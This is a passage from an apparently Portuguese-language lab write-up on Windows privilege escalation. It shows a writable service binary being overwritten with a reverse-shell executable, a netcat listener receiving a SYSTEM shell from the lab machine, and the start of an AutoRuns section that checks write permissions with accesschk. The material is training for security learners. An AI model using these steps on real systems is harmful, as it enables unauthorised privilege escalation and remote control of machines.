Aqui podemos ver que o usuário `user` tem permissão de escrita no arquivo `C:\Program Files\File Permissions Service\filepermservice.exe`, então vamos criar um payload dentro desse arquivo.

```cmd
C:\Windows\system32>copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
        1 file(s) copied.
```

Agora vamos reiniciar o serviço `filepermsvc` com o comando `net start filepermsvc` e verificar se conseguimos acesso a maquina alvo.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:18:58
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.32.183] 49811
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
e para concluir esse tópico bastar clicar no botão `Completed`.

---

<div class="page"/>

## **<a id="7"> • Registry - AutoRuns</a>**

Vamos verificar os `Autoruns` da maquina alvo utilizando o comando `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.

```powershell
PS C:\Users\user\Desktop> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

Podemos ver que existe um programa chamado `My Program` que está configurado para ser executado no inicio do sistema, então vamos verificar as permissões do nosso usuário utilizando o `accesschk.exe`.

```powershell
PS C:\Users\user\Desktop> C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
                                                                                                  FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
                                                                                                  FILE_ALL_ACCESS
  RW BUILTIN\Administrators
                                                                                                  FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
```